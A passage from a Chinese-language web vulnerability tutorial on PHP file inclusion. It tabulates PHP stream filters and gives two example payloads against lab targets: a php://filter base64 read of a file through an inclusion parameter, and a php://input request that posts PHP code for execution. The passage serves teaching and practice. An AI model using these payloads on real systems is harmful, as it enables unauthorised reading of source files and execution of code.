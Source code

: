   | 转换过滤器                                                   | 作用                                                       |
  | ------------------------------------------------------------ | ---------------------------------------------------------- |
  | convert.base64-encode & convert.base64-decode                | 等同于`base64_encode()`和`base64_decode()`，base64编码解码 |
  | convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码             |

  | 压缩过滤器                        | 作用                                                         |
  | --------------------------------- | ------------------------------------------------------------ |
  | zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
  | bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。              |

  | 加密过滤器 | 作用                   |
  | ---------- | ---------------------- |
  | mcrypt.*   | libmcrypt 对称加密算法 |
  | mdecrypt.* | libmcrypt 对称解密算法 |

- **示例**：

  1. 读取文件源码（针对php文件需要base64编码）

     `php://filter/read=convert.base64-encode/resource=[文件名]`

     ```livecodeserver
     http://192.168.229.128/pikachu/vul/fileinclude/fi_remote.php?filename=php://filter/read=convert.base64-encode/resource=C:\Users\HP\Desktop\hhh.txt
     ```

     ![image-20231015194926981](PictureFile/【Web】TOP漏洞.assets/image-20231015194926981.png)

  2. `php://input + [POST DATA]`执行php代码

     ```php
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php phpinfo(); ?>
     ```
